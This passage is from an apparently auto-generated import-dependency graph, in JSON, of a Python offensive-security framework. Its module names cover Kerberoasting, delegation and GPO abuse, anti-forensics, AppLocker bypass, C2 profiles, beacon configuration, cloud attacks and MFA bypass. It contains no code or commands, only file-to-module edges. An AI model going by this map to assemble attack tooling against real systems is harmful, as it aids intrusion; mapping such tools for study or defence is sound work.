"source": "tests/test_tui_themes.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_themes.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_tui_themes.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_bridge_delegate.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_bridge_delegate.py", "target": "itertools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_bridge_delegate.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_bridge_delegate.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_bridge_delegate.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_bridge_delegate.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_dashboard.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_dashboard.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_unified_dashboard.py", "target": "modules.unified_dashboard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_viral_adoption.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_viral_adoption.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_viral_adoption.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_viral_adoption.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_vuln_mitigations.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_vuln_mitigations.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_vuln_mitigations.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_vuln_mitigations.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_vuln_mitigations.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_vuln_mitigations.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_vuln_mitigations.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_binary_check.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_binary_check.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_binary_check.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_binary_check.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_binary_check.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_binary_check.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_llm.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_llm.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_wizard_llm.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_world_model_extended.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_world_model_extended.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_world_model_extended.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_world_model_extended.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_world_model_extended.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_xss_sanitization.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_xss_sanitization.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_xss_sanitization.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/contract_check.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/contract_check.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/contract_check.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/contract_check.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/extract_cluster.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/extract_cluster.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/extract_cluster.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/extract_cluster.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/extract_cluster.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/gen_demo_gifs.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/gen_demo_gifs.py", "target": "PIL"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/gen_demo_gifs_extra.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/gen_demo_gifs_extra.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tools/gen_demo_gifs_extra.py", "target": "gen_demo_gifs"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "bisect"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "ctypes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "curses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "gzip"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "itertools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "readline"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "string"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "html.parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "itertools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "bs4"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "requests.exceptions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "core.dependencies"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "modules.lazyencoder_decoder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "core.safe_subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "utils.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "banner.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/__init__.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/__init__.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/aliases.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/assign.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/auto_crypto.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/auto_crypto.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/auto_crypto.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/autosuggest.py", "target": "core/text_utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/autosuggest.py", "target": "core/safe_console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/banner_config.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/banner_config.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/banner_config.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/banner_config.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/banner_config.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/chain_mode.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/chain_mode.py", "target": "cli/noise_verbs.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/command_chain.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/command_chain.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/command_explorer.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/command_explorer.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/command_form.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/command_form.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/command_form.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/_base.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/_base.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/_dormancy.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/active_directory.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/active_directory.py", "target": "modules/kerberos_tickets.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/active_directory.py", "target": "modules/delegation_attacks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/active_directory.py", "target": "modules/delegation_attacks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/active_directory.py", "target": "modules/dacl_abuse.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/active_directory.py", "target": "modules/gpo_abuse.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/active_directory.py", "target": "modules/gpo_abuse.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/active_directory.py", "target": "modules/kerberoasting.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "modules/llm_adapter.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "modules/llm_prompts.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "core/llm_budget.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "modules/sidequestion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ai.py", "target": "cli/confirm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "cli/confirm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "cli/output_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/anti_forensics.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/applocker_bypass.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/applocker_bypass.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/audit.py", "target": "cli/cli_enhancements.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/audit.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/categories.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/credential_reuse.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/credential_reuse.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/conditional_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/operator_profiles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/operator_profiles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/operator_profiles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/automation.py", "target": "modules/operator_profiles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "modules/bitm_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "modules/bitm_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "modules/bitm_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "modules/bitm_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "modules/bitm_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "modules/bitm_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bitm.py", "target": "modules/bitm_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "modules/bof_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "modules/bof_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "modules/bof_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "modules/beacon_config_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "modules/bof_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "modules/bof_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "modules/bof_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/bof_registry.py", "target": "modules/bof_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/c2_profile.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/c2_profile.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/c2_profile.py", "target": "modules/c2_profile_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/c2_profile.py", "target": "modules/c2_profile_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/c2_profile.py", "target": "modules/c2_profile_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/c2_profile.py", "target": "modules/c2_profile_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/caldera.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/caldera.py", "target": "modules/operation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/caldera.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/caldera.py", "target": "modules/ttp_coverage.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/caldera.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/caldera.py", "target": "modules/playbook_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/campaign.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/campaign.py", "target": "core/safe_import.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/campaign.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/campaign.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/catalog.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/catalog.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cicd.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cicd.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cicd.py", "target": "modules/cicd_enumerator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cicd.py", "target": "modules/cicd_enumerator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cicd.py", "target": "modules/mfa_bypass.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cli_auth.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cli_auth.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cli_auth.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cli_auth.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cli_auth.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cli_auth.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cli_auth.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cli_auth.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud.py", "target": "modules/cloud_enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud.py", "target": "modules/lazycloud.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud.py", "target": "cli/confirm.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud_attacks.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud_attacks.py", "target": "modules/entra_id_attacks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud_attacks.py", "target": "modules/aws_attacks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud_attacks.py", "target": "modules/gcp_attacks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud_attacks.py", "target": "modules/k8s_attacks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud_attacks.py", "target": "modules/cross_cloud.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/cloud_attacks.py", "target": "modules/saas_attacks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/collaboration.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/collaboration.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/collaboration.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/collaboration.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/collaboration.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/collaboration.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/command_and_control_migrated.py", "target": "utils.py"}, 